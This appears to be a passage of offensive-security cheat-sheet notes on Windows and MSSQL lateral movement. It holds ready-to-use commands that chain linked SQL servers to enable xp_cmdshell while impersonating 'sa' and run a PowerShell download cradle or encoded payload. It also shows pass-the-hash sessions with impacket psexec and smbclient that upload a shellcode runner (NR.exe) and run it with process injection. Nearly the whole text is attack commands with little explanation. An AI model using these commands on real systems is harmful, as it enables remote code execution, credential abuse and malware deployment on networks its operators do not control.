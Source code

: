 ```ad-example
EXEC ('sp_configure ''show advanced options'', 1; reconfigure') AT TARGET
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT TARGET
EXEC ('xp_cmdshell ''powershell DOWNLOADCRADLE'' ') AT TARGET
~~~

Enable xp_cmdshell by executing query on remote machine, targeting your machine; impersonating 'sa'. Double jump

~~~sql
EXECUTE AS LOGIN = 'sa';
EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT TARGET') AT TARGET_2
EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT TARGET') AT TARGET_2
EXEC ('EXEC (''xp_cmdshell ''''<your cmd here>'''''') AT TARGET') AT TARGET_2
EXEC ('EXEC (''xp_cmdshell ''''powershell -enc XXXXX'''''') AT TARGET') AT TARGET_2
~~~

Enable xp_cmdshell by executing query on remote machine, targeting your machine; impersonating 'sa'. Triple jump.

~~~sql
EXEC ('EXEC (''EXEC ('''' sp_configure ''''''''show advanced options'''''''', 1; reconfigure; '''') AT TARGET '') AT TARGET_2') AT TARGET
EXEC ('EXEC (''EXEC ('''' sp_configure ''''''''xp_cmdshell'''''''', 1; reconfigure; '''') AT TARGET '') AT TARGET_2') AT TARGET
EXEC ('EXEC (''EXEC ('''' xp_cmdshell ''''''''powershell DOWNLOADCRADLE'''''''' '''') AT TARGET '') AT TARGET_2') AT TARGET
~~~
```

~~~ad-example
title:PSExec + SMBClient Lateral Movement 
collapse:yes

*New PSExec Session + SMBClient Session*

```bash
proxychains impacket-psexec USER@TARGET -hashes :NTLM
```

```bash
proxychains impacket-smbclient USER@TARGET -hashes :NTLM
```

*Put Malware Using SMBClient*

```bash
use c$
cd /windows/tasks
put NR.exe
```

> Run the shellcode runner using the psexec session (EntryPoint Stomping Process Injection)

```bash
use c$
C:\windows\tasks\NR.exe -epi
```
~~~
